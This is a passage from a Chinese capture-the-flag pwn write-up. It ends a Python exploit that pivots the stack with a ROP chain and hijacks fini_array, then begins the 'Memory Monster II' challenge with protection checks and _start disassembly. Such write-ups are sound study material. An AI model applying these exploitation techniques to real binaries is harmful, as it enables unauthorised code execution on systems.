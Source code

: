 ```python
    write(esp+64,p64(rop_syscall))
 
    # stack pivoting
    write(fini_array,p64(leave_ret) + p64(ret))
 
if __name__ == '__main__':
    exp()
    p.interactive()
```

### 参考文章

* [[原创]pwnable.tw新手向write up(二) 3×17-x64静态编译程序的fini_array劫持](https://bbs.pediy.com/thread-259298.htm)

## Memory Monster II



> 题目来源 DASCTF 五月赛，作者为 TaQini ，[附件]([https://github.com/hebtuerror404/CTF_competition_warehouse_2020_First/tree/master/2020_DAS_SECURITY_CTF_MAY./Pwnable/Memory%20Monster%20II](https://github.com/hebtuerror404/CTF_competition_warehouse_2020_First/tree/master/2020_DAS_SECURITY_CTF_MAY./Pwnable/Memory Monster II))
>
> 这里和上面那条机会一样，下面是独立完成，详细记录一下

### 保护情况

checksec 检查是没有 canary 但是根据汇编去检查**是有 canary 保护**的：

```shell
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### 漏洞函数

题目编译的二进制文件没有符号表，可以尝试用 lscan 找到对应 sig 文件修复，没有卵用只修复了两个函数，但是能看到 _start 函数：（重命名部分函数）

```c
.text:0000000000401B00                 public start
.text:0000000000401B00 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:0000000000401B00 ; __unwind {
.text:0000000000401B00                 xor     ebp, ebp
.text:0000000000401B02                 mov     r9, rdx
.text:0000000000401B05                 pop     rsi
.text:0000000000401B06                 mov     rdx, rsp
.text:0000000000401B09                 and     rsp, 0FFFFFFFFFFFFFFF0h
.text:0000000000401B0D                 push    rax
.text:0000000000401B0E                 push    rsp
.text:0000000000401B0F                 mov     r8, offset __libc_start_fini
.text:0000000000401B16                 mov     rcx, offset __libc_start_init
.text:0000000000401B1D                 mov     rdi, offset main
.text:0000000000401B24                 db      67h
.text:0000000000401B24                 call    sub_4020B0
.text:0000000000401B2A                 hlt
.text:0000000000401B2A ; } // starts at 401B00
.text:0000000000401B2A start           endp
```
